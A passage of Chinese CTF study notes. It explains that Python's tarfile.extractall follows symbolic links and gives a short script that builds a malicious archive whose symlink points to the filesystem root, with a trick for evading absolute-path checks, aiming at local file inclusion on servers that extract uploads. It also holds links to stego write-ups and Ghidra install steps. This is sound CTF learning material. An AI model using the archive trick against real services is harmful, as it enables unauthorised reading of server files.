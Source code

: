 tar.extractall支持symbolic link，只检查文件的名称是不够的，服务端不做过滤就解压可能出现LFI
```py
import tarfile
with tarfile.open('exploit.tar.gz', 'w:gz') as tar:
    # First file
    info1 = tarfile.TarInfo("test")
    info1.type = tarfile.SYMTYPE
    info1.linkname = "/" 
    tar.addfile(info1)
    # Second file
    info2 = tarfile.TarInfo("./test/name") #若服务端指定不能以绝对路径/开头，可以这样绕过
    info2.type = tarfile.SYMTYPE
    info2.linkname = "linkname"
    tar.addfile(info2)
"""
The TarInfo class in the tarfile module is used to represent information about a file or directory in a tar archive. It provides attributes and methods to set and retrieve various properties of the file or directory.

Here are some key attributes of the TarInfo class:

name: The name of the file or directory. This can be an absolute or relative path.
size: The size of the file in bytes. For directories, this is set to 0.
mtime: The modification time of the file or directory, represented as a Unix timestamp.
type: The type of the file or directory. This can be one of the following constants defined in the tarfile module: tarfile.REGTYPE (regular file), tarfile.DIRTYPE (directory), tarfile.LNKTYPE (hard link), tarfile.SYMTYPE (symbolic link), tarfile.CHRTYPE (character special file), tarfile.BLKTYPE (block special file), tarfile.FIFOTYPE (FIFO special file), or tarfile.CONTTYPE (contiguous file).
linkname: The target of a hard link or symbolic link.
uid: The user ID of the owner of the file or directory.
gid: The group ID of the owner of the file or directory.
mode: The permissions of the file or directory, represented as an octal number.
"""
```

## 描绘纯色背景GIF中的单一物品的轨迹

- https://github.com/D13David/ctf-writeups/tree/main/tenablectf23/stego/ancient_scrawls
- https://github.com/ITSEC-ASIA-ID/Competitions/tree/main/CTF/2023/TenableCTF/Steganography/Ancient%20Scrawls

## Mac M1安装Ghidra

1. 去 https://github.com/NationalSecurityAgency/ghidra 下载最新版本ghidra
2. 去 https://www.oracle.com/java/technologies/downloads/ 下载要安装的ghidra版本的最低需求jdk
3. 运行ghidraRun。若要求输入jdk路径，输入jdk安装路径/Contents/Home

## C语言signal号表

https://www-uxsup.csx.cam.ac.uk/courses/moved.Building/signals.pdf
